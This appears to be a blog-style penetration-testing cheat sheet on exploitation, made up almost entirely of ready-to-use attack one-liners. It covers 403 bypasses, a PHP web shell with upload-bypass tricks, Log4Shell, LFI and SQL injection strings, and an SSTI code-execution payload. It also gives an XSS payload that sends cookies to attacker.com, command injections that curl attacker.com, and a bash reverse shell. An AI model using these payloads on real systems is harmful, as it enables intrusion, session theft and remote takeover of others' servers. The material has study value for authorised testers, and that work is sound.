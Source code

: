 ```yaml
---
title: "Exploitation"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [bypass, exploitation, xargs, payload, bash, wget, 403-bypass, file-upload, rce, lfi, ssti, sqlmap, xss, curl, ffuf, waf-bypass]
order: 2
image: /assets/images/Cyber-Security/Exploitation.png
---
```


After enumeration and reconnaissance, exploitation is where actual access or data extraction begins. This section contains practical exploitation tactics and one-liners used in real-world assessments.

## 🔓 403 Forbidden Bypass

```bash
wget https://raw.githubusercontent.com/Dheerajmadhukar/4-ZERO-3/refs/heads/main/403-bypass.sh
xargs -a 403 -I {} -n 1 ~/403-bypass.sh -u {} --exploit /DirectoryOrFile
cat 403_bypasses.out | grep PAYLOAD | awk '{for (i=5; i<=NF; i++) printf "%s ", $i; printf "\n"}'
```

### Additional Payloads (Manual Testing)
```bash
curl -X HEAD https://target.com/secret/
curl https://target.com/secret/.%2e/
curl -H "X-Original-URL: /admin" https://target.com/
curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/
```

## 📂 File Upload Bypass & Web Shells

### Common Upload Bypass Tricks
```bash
# Double extensions
file.php.jpg

# Null byte (if backend is vulnerable)
file.php%00.jpg

# Content-Type spoofing
curl -F "file=@shell.php;type=image/jpeg" https://target.com/upload
```

### PHP Shell Payload (Basic)
```php
<?php system($_GET['cmd']); ?>
```

Access via:
```bash
curl https://target.com/uploads/shell.php?cmd=id
```

## 💥 Remote Code Execution (RCE)

### RCE via `curl`
```bash
curl -X POST https://target.com/endpoint -d "input=|id"
```

### RCE via headers (Log4Shell-style)
```bash
curl https://target.com -H 'User-Agent: ${jndi:ldap://attacker.com/x}'
```

## 📜 Local File Inclusion (LFI)

### Testing LFI Paths
```bash
curl https://target.com/index.php?page=../../../../etc/passwd
curl https://target.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

### Wrappers & Payloads
```bash
curl https://target.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pOz8=  # Executes base64-encoded PHP
```

## 🧮 SQL Injection

### Basic Testing (Manual)
```bash
curl "https://target.com/item.php?id=1'"
curl "https://target.com/item.php?id=1--+"
curl "https://target.com/item.php?id=1 OR 1=1"
```

### Automated
```bash
sqlmap -u "https://target.com/item.php?id=1" --batch --risk=3 --level=5
```

## 🔁 Server-Side Template Injection (SSTI)

Testing for SSTI

{% raw %}
```bash
curl https://target.com/page?name={{7*7}}
curl https://target.com/page?name=<%= 7 * 7 %>
```
{% endraw %}



### Exploitation

{% raw %}
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
{% endraw %}


## 💉 Cross-Site Scripting (XSS)

### Manual Payloads
```html
"><script>alert(1)</script>
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>
```

### Testing with `dalfox`
```bash
dalfox url https://target.com/search?q=test
```

## ⚙️ Command Execution via Common Injection Points

### Header Injection
```bash
curl -H "Host: example.com; curl http://attacker.com" https://target.com
```

### Cookie Injection
```bash
curl -H "Cookie: SESSIONID=;curl http://attacker.com" https://target.com
```

## 📸 Screenshot After Exploitation

```bash
aquatone -out screenshots -ports large < alivesubdomains.txt
```

## ✅ Post-Exploitation Tips

- Always chain access: Upload shell → Get RCE → Run privilege escalation scripts
- Enumerate for crontabs, SUID, and passwords in configs
- Setup reverse shell listeners when working with limited environments

```bash
nc -lvnp 4444
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```